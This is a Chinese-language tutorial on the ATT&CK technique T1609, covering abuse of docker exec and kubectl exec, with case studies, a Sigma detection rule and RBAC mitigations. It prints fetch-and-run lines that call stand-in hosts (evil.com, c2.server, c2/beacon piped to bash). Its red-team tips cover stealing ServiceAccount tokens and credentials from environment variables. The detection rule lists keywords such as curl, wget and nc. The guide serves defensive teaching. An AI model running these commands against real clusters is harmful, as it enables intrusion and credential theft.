


# 容器管理命令 (T1609)

## 一句话通俗理解

> **攻击者用docker exec/kubectl exec钻进正在运行的容器里执行命令，就像趁你不注意溜进你家房间做事**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 使用容器管理命令（docker exec/kubectl exec/crictl exec）在运行中的容器内执行命令 |
| 为什么危险？ | 可在容器内执行任意命令而不部署新容器，隐蔽性强，可绕过容器镜像扫描 |
| 谁需要关心？ | 容器运维团队、安全运维团队、DevOps工程师 |
| 你的第一步防御 | 监控docker exec和kubectl exec命令执行，对容器管理API设置审计日志 |
| 如果只做一件事 | 限制Docker socket和Kubernetes API的访问权限，仅授权用户可执行exec操作 |

## 难度等级

⭐⭐ 中级：需要了解容器运行时管理命令、容器命名空间、Kubernetes RBAC。前置知识：Docker命令行、Kubernetes基础、Linux进程命名空间

## 前置知识检查

**读这个文件需要什么？**

- [ ] Docker命令行基本使用（特别是`docker exec`）
- [ ] Kubernetes kubectl基本使用（特别是`kubectl exec`）
- [ ] 容器命名空间概念（PID/Network/Mount namespace）
- [ ] Kubernetes RBAC权限模型

## 技术描述

**容器管理命令**（T1609）是MITRE ATT&CK框架中**执行**战术下的一种技术，攻击者通过容器运行时提供的管理命令（如`docker exec`、`kubectl exec`、`crictl exec`）在已运行的容器内执行任意命令，无需部署新容器即可操控容器化应用。

> 📡 **打个比方**：想象容器是一间正在运行的工作室，里面有工人（进程）在干活。正常情况下，你只能从窗户外面看（查看日志）。但`docker exec`就像一把万能钥匙——直接开门进去，在工作室里安排新任务（执行命令）。攻击者拿到这把钥匙后，可以随时溜进任何工作室，在不惊动门卫（镜像扫描）的情况下做事。

### 具体怎么理解？

主要容器管理命令：

- **docker exec**：在运行中的Docker容器内执行命令
  - `docker exec -it <container> /bin/sh`：在容器内打开交互式shell
  - `docker exec <container> wget http://evil.com/malware.sh`：在容器内下载执行恶意脚本

- **kubectl exec**：在Kubernetes Pod的容器内执行命令
  - `kubectl exec -it <pod> -- /bin/sh`：在Pod内打开shell
  - `kubectl exec <pod> -- curl http://c2.server/beacon`：在Pod内执行C2回连

- **crictl exec**：CRI-O/containerd的容器管理命令
  - `crictl exec <container-id> /bin/sh`：在容器内执行命令

**过渡段：** 理解了容器管理命令是什么后，我们来看攻击者为什么偏爱`exec`而非部署新容器——因为它更隐蔽，不触发镜像扫描。

### 为什么有效？

这种技术之所以有效，是因为：
1. **无新镜像部署**：不需要拉取或构建新镜像，绕过镜像扫描和安全策略
2. **利用现有容器权限**：被exec的容器通常已有网络访问和业务权限，攻击者可直接利用
3. **审计盲区**：容器内的进程在容器命名空间中运行，主机EDR可能无法监控
4. **隐蔽持久化**：通过exec执行的命令不会修改容器镜像，容器重启后不留痕迹

## 真实攻击流程



**步骤详解：**

1. **获取容器管理权限** - 攻击者通过暴露的Docker socket、窃取kubeconfig、或Kubernetes RBAC配置错误获取exec权限
2. **枚举容器** - 使用`docker ps`或`kubectl get pods`列出所有运行中的容器，寻找高权限或网络可达内部系统的容器
3. **选择目标容器** - 优先选择有数据库访问权限、有内部网络访问权限、或运行关键业务的容器
4. **执行exec命令** - 使用`docker exec -it <container> /bin/sh`进入容器，或直接`docker exec <container> <malicious_command>`执行单条命令
5. **利用容器权限** - 在容器内利用已有的网络权限和凭证访问内部服务、窃取数据、或运行C2 beacon

## 攻击流程

### 典型攻击流程

```
获取容器管理权限 --> 枚举容器 --> 选择高权限容器 --> docker exec 进入容器 --> 利用容器网络权限访问内部服务 --> 横向渗透
```



**步骤详解：**

1. **获取容器管理权限**
   - 通俗描述：攻击者通过暴露的 Docker socket（2375 端口）、窃取的 kubeconfig 文件或弱 RBAC 配置获得对容器运行时或编排平台的管理权限
   - 技术细节：Docker daemon 默认监听 unix socket，错误配置为 TCP 2375 且无 TLS 时可直接远程管理；kubeconfig 文件位于 `~/.kube/config`，窃取后可冒充集群管理员；K8s API Server 暴露且 RBAC 配置过宽时也可直接调用
   - 常用工具：curl（调用 Docker API）、kubectl、docker CLI、CDK（Container Attack Tool）

2. **枚举容器**
   - 通俗描述：使用容器管理命令枚举当前运行的容器，识别其中的高价值目标
   - 技术细节：`docker ps -a` 列出所有容器；`kubectl get pods --all-namespaces` 列出所有命名空间的 Pod；查看容器标签、注释和资源限制，识别运行关键业务（如数据库、消息队列、CI/CD runner）的容器
   - 常用工具：docker、kubectl、crictl、CDK

3. **选择高权限容器**
   - 通俗描述：从枚举结果中选择具有特权模式、hostNetwork、hostPID 或挂载了主机敏感目录的容器作为攻击目标
   - 技术细节：检查 `SecurityContext.privileged: true`；检查 `hostNetwork: true`、`hostPID: true`；检查 volumeMounts 是否包含 `/var/run/docker.sock`、`/`、`/etc`、`/root` 等敏感路径
   - 常用工具：kubectl describe、docker inspect、CDK evaluate

4. **docker exec 进入容器**
   - 通俗描述：使用 `docker exec` 或 `kubectl exec` 在目标容器内执行命令，获得容器内的 shell 访问
   - 技术细节：`docker exec -it <container> /bin/sh`；`kubectl exec -it <pod> -- /bin/sh`；进入后获得容器内 root 权限（多数容器以 root 运行）；如果容器为特权模式，可访问主机所有设备
   - 常用工具：docker exec、kubectl exec、nsenter（进入容器命名空间）

5. **利用容器网络权限访问内部服务**
   - 通俗描述：利用容器的网络配置（如 hostNetwork 或在内部网络中）访问集群内部不对外暴露的服务
   - 技术细节：hostNetwork 容器可直接访问主机网络上的所有服务；普通容器可通过 Service 名称访问 K8s 集群内服务（如 `redis-master:6379`、`postgres:5432`）；可扫描 ClusterIP 范围发现未授权服务
   - 常用工具：nmap、curl、nc、kube-hunter

6. **横向渗透到其他容器或主机**
   - 通俗描述：从初始容器横向移动到其他容器或主机，扩大攻击面
   - 技术细节：通过容器内挂载的 kubeconfig 访问 K8s API Server；利用特权容器挂载主机文件系统后 chroot 逃逸；通过 Service Account Token 调用 K8s API 创建后门 Pod；窃取容器内的应用凭证（数据库密码、API Key）
   - 常用工具：kubectl、CDK、kubeletmein、Peirates

## 真实案例

### 案例1：Tesla Kubernetes集群加密劫持（2018年）

- **时间**：2018年
- **目标**：Tesla AWS Kubernetes集群
- **攻击组织**：未归因（加密劫持攻击）
- **手法**：攻击者利用未授权访问的Kubernetes Dashboard（默认端口30000未认证），通过Dashboard的"Exec"功能直接在Pod内执行命令。在Pod内运行XMRig挖矿程序，并使用CloudFlare的meek域名前置隐藏C2通信
- **影响**：Tesla内部Pod资源被用于挖矿数月未被发现
- **参考链接**：[RedLock Tesla K8s事件分析](https://redlock.io/blog/tesla-cryptojacking)

### 案例2：Kinsing通过docker exec执行恶意命令（2022年）

- **时间**：2022年
- **目标**：运行Docker的Linux服务器
- **攻击组织**：Kinsing（加密劫持+后门团伙）
- **手法**：在通过暴露的Docker API获取访问权限后，Kinsing不部署新容器，而是使用`docker exec`在现有业务容器内执行命令。在容器内下载并运行Kinsing后门和XMRig挖矿程序，利用容器的网络权限访问内部网络
- **影响**：多个组织的业务容器被感染，部分内部网络被扫描
- **参考链接**：[Microsoft Kinsing分析](https://www.microsoft.com/en-us/security/blog/2022/01/kinsing/)

### 案例3：Hildegard通过kubectl exec横向移动（2021年）

- **时间**：2021年
- **目标**：暴露kubelet API的Kubernetes集群
- **攻击组织**：Hildegard（TeamTNT变种）
- **手法**：利用kubelet API（10250端口）未授权访问，通过`kubectl exec --kubeconfig=stolen-config`在多个Pod间横向移动。在每个Pod中执行命令收集凭证，然后利用窃取的AWS凭证部署更多恶意Pod
- **影响**：Kubernetes集群中多个Pod被感染
- **参考链接**：[CrowdStrike Hildegard分析](https://www.crowdstrike.com/blog/cr8:3-root-shell-via-kubernetes/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **利用Docker socket**：如果容器挂载了Docker socket（`-v /var/run/docker.sock:/var/run/docker.sock`），可通过Docker API对宿主机上所有容器执行exec
2. **K8s ServiceAccount滥用**：窃取Pod内的ServiceAccount Token，使用该Token通过`kubectl exec`操作其他Pod
3. **exec单条命令避免交互**：`docker exec <container> curl http://c2/beacon | bash`比进入shell更隐蔽，不产生交互式会话日志
4. **利用容器内凭证**：通过exec在容器内读取环境变量中的数据库密码、API密钥等凭证

### 常用工具

| 工具名称 | 用途 | 平台 | 说明 |
| -------- | ---- | ---- | ---- |
| docker exec | Docker容器命令执行 | Docker | 在运行中的Docker容器内执行命令 |
| kubectl exec | K8s Pod命令执行 | Kubernetes | 在Kubernetes Pod内执行命令 |
| crictl exec | CRI容器命令执行 | containerd/CRI-O | 容器运行时接口命令执行 |
| nsenter | 命名空间进入 | Linux | 直接进入容器进程的命名空间 |

### 注意事项

- exec需要在容器运行时执行，容器停止后无法exec
- kubectl exec需要相应的RBAC权限（pods/exec资源）
- 频繁exec可能触发行为分析告警

## 蓝队视角

### 检测要点

1. **exec命令监控**：监控所有`docker exec`和`kubectl exec`命令执行
2. **异常exec源**：检测非运维工具（如直接curl而非kubectl）发起的exec
3. **exec行为分析**：分析exec执行的命令内容，检测可疑操作（下载执行、反向shell等）

### 监控建议

- 在Docker daemon启用审计：`auditctl -w /usr/bin/docker -p x -k docker_exec`
- 启用Kubernetes审计日志，监控`pods/exec`子资源访问
- 使用Falco监控容器内进程创建，检测exec后的可疑行为
- 限制Kubernetes RBAC中`pods/exec`权限，仅授权必要用户

## 避坑指南

防御者最痛苦的教训：**Kubernetes Dashboard默认未认证且暴露在公网**。2018年Tesla被攻击就是因为K8s Dashboard没有配置认证，攻击者直接通过Dashboard的Exec功能在Pod内执行命令。务必为K8s Dashboard配置认证，并限制其网络暴露。

## 检测建议

### 网络层检测

**方法**：监控Kubernetes API和Docker API的exec请求

```bash
# 检测对Kubernetes API的exec请求
# Kubernetes审计日志中查找
grep "pods/exec" /var/log/kubernetes/audit.log

# 检测对Docker API的exec请求
grep "exec" /var/log/docker.log
```

### 主机层检测

**方法**：监控docker/kubectl命令执行和容器内进程

```bash
# 审计docker exec命令
auditctl -w /usr/bin/docker -p x -k docker_exec
ausearch -k docker_exec | grep "exec"

# 使用Falco检测容器内可疑进程
# Falco规则：检测容器内通过exec启动的shell
falco --rule "Container shell via exec" 
```

### 应用层检测

**用人话说：** 这条规则在检测通过容器管理命令执行的可疑操作——正常情况下`docker exec`和`kubectl exec`用于运维排障，如果审计日志中突然出现exec请求，且执行的命令是`/bin/sh`、`curl|bash`、`wget`这类操作，大概率是攻击者在利用容器管理命令执行恶意代码。2018年Tesla被攻击就是因为K8s Dashboard未认证，攻击者直接通过Dashboard的Exec功能在Pod内运行了挖矿程序。检测的关键信号是：非工作时间段的exec操作、exec启动了shell或下载工具、exec来源IP异常。

**Sigma规则示例（可疑容器exec操作检测）：**

```yaml
title: 检测可疑容器exec操作
status: experimental
description: 检测通过docker exec/kubectl exec在容器内执行可疑命令
logsource:
    category: process_creation
    product: linux
detection:
    selection_exec:
        Image|endswith:
            - '/docker'
            - '/kubectl'
            - '/crictl'
        CommandLine|contains: 'exec'
    selection_suspicious_cmd:
        CommandLine|contains:
            - '/bin/sh'
            - '/bin/bash'
            - 'curl'
            - 'wget'
            - 'nc '
            - 'python -c'
            - 'base64'
    condition: selection_exec and selection_suspicious_cmd
fields:
    - Image
    - CommandLine
    - User
    - ParentImage
falsepositives:
    - 合法的容器运维操作（需通过工单系统验证）
level: high
tags:
    - attack.execution
    - attack.t1609
```

## 缓解措施

### 优先级1：关键措施

**限制exec权限**：通过Kubernetes RBAC限制`pods/exec`子资源访问权限

```yaml
# Kubernetes RBAC：仅授权特定角色exec权限
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pod-exec-role
rules:
- apiGroups: [""]
  resources: ["pods/exec"]
  verbs: ["create"]
# 仅绑定给必要的运维ServiceAccount
```

### 优先级2：重要措施

**保护Docker socket**：确保Docker socket不挂载到非必要容器中

```bash
# 检查哪些容器挂载了Docker socket
docker ps --filter volume=/var/run/docker.sock --format "{{.Names}}"

# 禁止挂载Docker socket到普通容器
# 在Pod Security Standards中限制hostPath挂载
```

### 优先级3：建议措施

**启用Kubernetes审计日志**：记录所有API调用用于安全审计

```yaml
# Kubernetes审计策略配置
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: RequestResponse
  resources:
  - group: ""
    resources: ["pods/exec", "pods/attach"]
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解docker exec（初级）

**目标**：掌握docker exec基本操作

**步骤**：
1. 启动一个Nginx容器：`docker run -d --name web nginx`
2. 使用exec查看容器内进程：`docker exec web ps aux`
3. 使用exec进入shell：`docker exec -it web /bin/sh`

**预期输出**：能在容器内查看进程和执行命令

**学习要点**：理解exec如何进入运行中的容器

### 实验2：Kubernetes exec实验（中级）

**目标**：掌握kubectl exec操作

**步骤**：
1. 部署一个测试Pod：`kubectl run test --image=nginx`
2. 使用exec在Pod内执行命令：`kubectl exec test -- ls /etc`
3. 使用exec进入Pod shell：`kubectl exec -it test -- /bin/sh`

**预期输出**：能在Kubernetes Pod内执行命令

**学习要点**：理解K8s exec的工作原理和权限要求

### 实验3：防御验证（高级）

**目标**：部署容器exec监控，验证检测效果

**步骤**：
1. 启用Kubernetes审计日志
2. 配置Falco规则检测容器内shell启动
3. 执行`kubectl exec test -- /bin/sh`
4. 验证告警是否触发

**预期输出**：审计日志记录exec操作，Falco触发告警

**学习要点**：掌握容器exec审计和监控

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **docker exec** | Docker命令，在运行中的容器内执行新命令 |
| **kubectl exec** | Kubernetes命令，在Pod的容器内执行命令 |
| **Docker socket** | /var/run/docker.sock，Docker daemon的Unix Socket接口 |
| **kubelet API** | Kubernetes节点上的kubelet服务API（端口10250） |
| **RBAC** | 基于角色的访问控制，Kubernetes的权限管理系统 |
| **ServiceAccount** | Kubernetes中Pod使用的身份账号，其Token可用于API认证 |
| **Pod** | Kubernetes中最小的部署单元，包含一个或多个容器 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Container Administration Command (T1609)](https://attack.mitre.org/techniques/T1609/)
- [Docker exec文档](https://docs.docker.com/engine/reference/commandline/exec/) - Docker官方exec文档
- [Kubernetes exec文档](https://kubernetes.io/docs/reference/generated/kubectl/kubectl-commands#exec) - K8s官方exec文档

### 📰 安全报告（真实攻击）

- [RedLock - Tesla K8s事件](https://redlock.io/blog/tesla-cryptojacking) - 2018年Tesla K8s Dashboard未授权exec攻击
- [Microsoft - Kinsing分析](https://www.microsoft.com/en-us/security/blog/2022/01/kinsing/) - 2022年docker exec执行恶意命令
- [CrowdStrike - Hildegard](https://www.crowdstrike.com/blog/cr8:3-root-shell-via-kubernetes/) - 2021年kubectl exec横向移动

### 🔧 工具与资源（动手试试）

- [Falco](https://falco.org/) - CNCF容器运行时安全监控
- [Kubernetes审计日志](https://kubernetes.io/docs/tasks/debug/debug-cluster/audit/) - K8s审计日志文档
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架

### 📚 学习资料（深入了解）

- [Kubernetes安全最佳实践](https://kubernetes.io/docs/concepts/security/) - K8s安全文档
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/containers/) - 容器ATT&CK矩阵
